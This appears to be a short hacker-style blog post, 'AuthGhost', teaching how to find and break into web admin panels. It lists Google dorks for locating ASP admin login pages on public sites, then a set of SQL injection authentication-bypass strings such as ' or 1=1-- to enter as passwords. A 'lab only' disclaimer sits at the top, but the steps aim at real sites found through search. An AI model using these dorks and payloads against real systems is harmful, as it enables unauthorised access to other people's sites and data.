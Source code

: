 ```yaml
---
layout: default
title: "|--AuthGhost"
date: 2025-07-04
tags: [web-application, sql-injection, google-dorks]
---
```


> ⚠️ **FOR EDUCATION. FOR CHAOS. FOR THE LAB ONLY.**  
> You break real stuff = you face real bars. Use your brain.

##  What’s This?

> *Bypassing admin logins like a shadow.  
> This is that dirty trick in the back of the book no one talks about.*


## Step 1: Finding the Gate

Google is your dark mirror.

Use DORKS — your search spells:
```bash
"inurl:admin.asp"
"inurl:login/admin.asp"
"inurl:admin/login.asp"
"inurl:adminlogin.asp"
"inurl:adminhome.asp"
"inurl:admin_login.asp"
"inurl:administratorlogin.asp"
"inurl:login/administrator.asp"
"inurl:administrator_login.asp"
```

> You’re not browsing — you're **digging**.

## Step 2: Knock, But Loudly

Once you find the login page, you’ll see:
```bash
Username: ____________
Password: ____________
```
Don’t knock. **Kick the door**.

### You type:

- **Username**: `Admin`  
- **Password**: any of these mind-bending strings:
```bash
" or "x"="x
```
```bash
') or ('x'='x
```
```bash
' or 1=1--
```
```bash
" or 1=1--
```
```bash
or 1=1--
```
```bash
' or a=a--
```
```bash
" or "a"="a
```
```bash
') or ('a'='a
```
```bash
") or ("a"="a
```
```bash
hi" or "a"="a
```
```bash
hi" or 1=1 --
```
```bash
hi' or 1=1 --
```
```bash
'or'1=1'
```



